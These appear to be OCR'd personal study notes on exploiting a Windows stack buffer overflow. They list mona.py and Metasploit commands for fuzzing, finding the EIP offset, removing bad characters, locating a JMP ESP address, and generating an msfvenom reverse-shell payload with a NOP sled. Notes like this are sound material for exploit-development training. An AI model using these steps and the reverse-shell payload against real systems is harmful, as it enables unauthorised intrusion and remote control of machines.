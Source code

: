 Buffer overflow:

Set workingfolder	!mona config -set workingfolder c:\mona\%p
Fuzzing	Using fuzzer.py
create pattern on bytes crashes	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [bytes]
findmsp on bytes crashes	!mona findmsp -distance [bytes_range]
check for eip offset value	
set value offset and retn value	
Make sure eip same with retn value	
check bad character	!mona bytearray -b "\x00"
generate a string of bad character	Using badchars.py
compare bad character 	!mona compare -f bytearray.bin -a [esp address]
check list possible bad chars	
generate new bad chars with possible chars we found until unmodified with esp address	
find jump point choose the top one	!mona jmp -r esp -cpb  "\x00[possible bad chars]"
update retn with new address from jump point	retn = reverse address ("\xaf\x11\x50\x62")
create msfvenom payload 	msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "[badchars]" -f c
add padding	"\x90" * 16

!mona config -set workingfolder c:\mona\%p

23 24 3c 3d 83 84 ba bb

23 3c 83 ba